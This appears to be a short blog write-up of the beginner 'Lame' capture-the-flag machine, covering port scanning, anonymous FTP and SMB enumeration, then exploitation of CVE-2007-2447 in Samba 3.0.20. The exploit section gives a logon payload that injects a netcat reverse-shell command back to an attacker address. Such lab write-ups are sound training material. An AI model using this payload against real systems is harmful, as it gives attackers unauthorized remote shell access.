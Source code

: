 ```yaml
---
layout: post
title: Lame
date: 2024-07-17 10:00:00 -0400
---
```

![machine card](/assets/lame/Lame.png)

Lame box is an easy challenge suitable for beginners. It involves discovering open ports like FTP and SMB using Nmap. A vulnerability in Samba 3.0.20-Debian allows for remote command execution, making it a straightforward introduction to penetration testing.
# Recon

## nmap

Discovered some open ports.

![nmap](/assets/lame/Lame_image_1.png)

Scan ports 21 (FTP), 22 (SSH), 139 (NetBIOS), 445 (SMB), and 3632, perform version detection and default script scanning.

![svc scan](/assets/lame/Lame_image_2.png)

## FTP - TCP 21
Anonymous login but empty.

![anonymous login](/assets/lame/anonlogin.png)

## SMB - TCP 445
One accessible share.

![shares](/assets/lame/Lame_image_3.png)

Nothing Important

![nada](/assets/lame/Lame4.png)


# Exploit
Samba 3.0.20-Debian is vulnerable to RCE.
CVE: https://nvd.nist.gov/vuln/detail/CVE-2007-2447

Connect to the smb share:
```sh
smbclient //10.129.101.202/tmp
```
Enter command to pop a shell:
```sh
logon "/=`nc 10.10.14.151 1337 -e /bin/sh`"
```

Root

![root](/assets/lame/tmp1719122533136_Lame_image_1.png)

